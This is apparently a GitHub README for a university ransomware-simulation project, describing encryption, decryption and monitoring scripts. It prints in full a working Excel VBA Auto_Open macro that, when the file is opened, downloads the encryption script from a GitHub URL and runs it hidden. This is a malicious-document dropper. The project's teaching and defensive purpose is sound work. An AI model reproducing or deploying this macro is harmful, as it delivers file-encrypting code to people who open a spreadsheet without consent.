 # CSCE 5550 Ransomware Project

## Project Overview
This project simulates a ransomware attack by implementing encryption and decryption scripts, along with a monitoring and mitigation script. The main components include:

1. **Encryption Script** - Encrypts files in a specified directory.
2. **Decryption Script** - Decrypts files once the ransom has been "paid."
3. **Monitoring and Mitigation Script** - Detects and mitigates suspicious ransomware-like behavior, logging events in a database and sending alerts.

Additionally, an **Excel Macro** with VBA scripting is included to automatically download and execute the encryption script. This README will guide you through setting up the environment, installing necessary libraries, and understanding the project files.

---

## Environment Setup

### Requirements
1. **Python 3.8+** with the following libraries:
   - [`pycryptodome`](https://pypi.org/project/pycryptodome/) (for cryptographic functions)
   - [`watchdog`](https://pypi.org/project/watchdog/) (for monitoring file system events)
   - [`sqlite3`](https://docs.python.org/3/library/sqlite3.html) (for event logging, included by default in Python)

2. **VBA Macros** - Enabled in Excel to run the provided VBA script.

### Installation Steps

1. **Install Python Libraries**

    Run the following command to install the required libraries:

    ```bash
    pip install pycryptodome watchdog
    ```

2. **Set Up Directory Monitoring Script**

   In the `monitor_script.py`, specify the directory you want to monitor for suspicious activity. Modify the directory path in the script if needed.

---

## Project Files

- `encryption_script.py`: Encrypts files in the specified directory.
- `decryption_script.py`: Decrypts files with the correct key.
- `monitor_script.py`: Monitors file system events, logs suspicious activity, and attempts to terminate ransomware-like processes.
- `malicious_macro.xlsm`: An Excel file with a macro to download and execute the encryption script upon opening.

---

## Using the Excel Macro for Auto-Execution

The `malicious_macro.xlsm` file contains a VBA macro that automatically downloads and executes the `encryption_script.py` file. The macro triggers on file open.

### VBA Macro Code

The following VBA code is embedded in the Excel file and is responsible for downloading and executing the `encryption_script.py`:

```vba
Sub Auto_Open()
    Dim http As Object
    Dim scriptPath As String
    scriptPath = Environ("USERPROFILE") & "\Downloads\encryption_script.py" ' Path to save in Downloads folder

    ' Display the script path to verify it's correct
    MsgBox "Script Path: " & scriptPath

    Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
    http.Open "GET", "https://raw.githubusercontent.com/ameyer12/csce5550-ransomware-project/refs/heads/main/encryption_script.py", False
    http.Send

    If http.Status = 200 Then
        Dim stream As Object
        Set stream = CreateObject("ADODB.Stream")
        stream.Type = 1
        stream.Open
        stream.Write http.responseBody
        stream.SaveToFile scriptPath, 2
        stream.Close

        ' Display command to check before execution
        Dim command As String
        command = "python " & scriptPath
        MsgBox "Command to run: " & command ' Show command to verify

        ' Run the command
        Shell command, vbHide
    Else
        MsgBox "Failed to download the script. Status: " & http.Status
    End If
End Sub

3. **Utilizing the Encryption and Decryption Scripts**

   In `encryption_script.py` and `decryption_script.py`, specify the directory you want to encrypt/decrypt. Modify the directory path in the script if needed.
